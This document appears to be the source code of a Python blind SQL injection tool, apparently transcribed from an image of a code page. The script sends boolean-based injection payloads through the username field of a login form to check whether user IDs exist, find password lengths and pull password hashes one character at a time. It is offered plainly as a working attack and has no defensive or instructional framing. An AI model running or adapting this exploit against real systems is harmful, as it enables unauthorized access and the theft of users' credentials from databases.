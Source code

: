 ```python

def injected_query(payload):
    global total_queries
    # sql injection to manipulate the username field
    final_payload = custom_payload.format(payload=payload) if custom_payload else f"admin' and {payload}--"
    r = requests.post(target, data={"username": final_payload, "password": "password"})
    total_queries += 1
    return needle.encode() not in r.content  # check if login is successful

def boolean_query(offset, user_id, character, operator=">"):
    payload = "(select hex(substr(password, {}, 1)) from users where id = {}) {} hex('{}')".format(offset + 1, user_id, operator, character)
    return injected_query(payload)

def invalid_user(user_id):  # check if user exists 
    payload = "(select 1 from users where id = {})".format(user_id)  
    return injected_query(payload)

def password_length(user_id):
    i = 0
    while True:
        payload = "(select length(password) from users where id = {} and length(password) <= {} limit 1)".format(user_id, i)
        if not injected_query(payload):
            return i  # returns password length
        i += 1

def extract_hash(charset, user_id, password_length):
    found = ""
    for i in range(0, password_length):
        for j in range(len(charset)):
            if boolean_query(i, user_id, charset[j]):
                found += charset[j]
                break
    return found

def total_queries_taken():
    global total_queries
    print("\t[!] {} total queries!".format(total_queries))
    total_queries = 0

while True:
    user_id = get_input("> Enter a user ID to extract password hash (or type 'exit' to quit): ")
    if user_id.lower() == "exit":
        break

    try:
        if not invalid_user(user_id):
            user_password_length = password_length(user_id)
            print("\t[-] User {} hash length: {}".format(user_id, user_password_length))
            total_queries_taken()
            user_hash = extract_hash(charset, int(user_id), user_password_length)
            print("\t[-] User {} hash: {}".format(user_id, user_hash))
            total_queries_taken()
        else:
            print("\t[X] User {} does not exist!".format(user_id))
    except KeyboardInterrupt:
        break
```
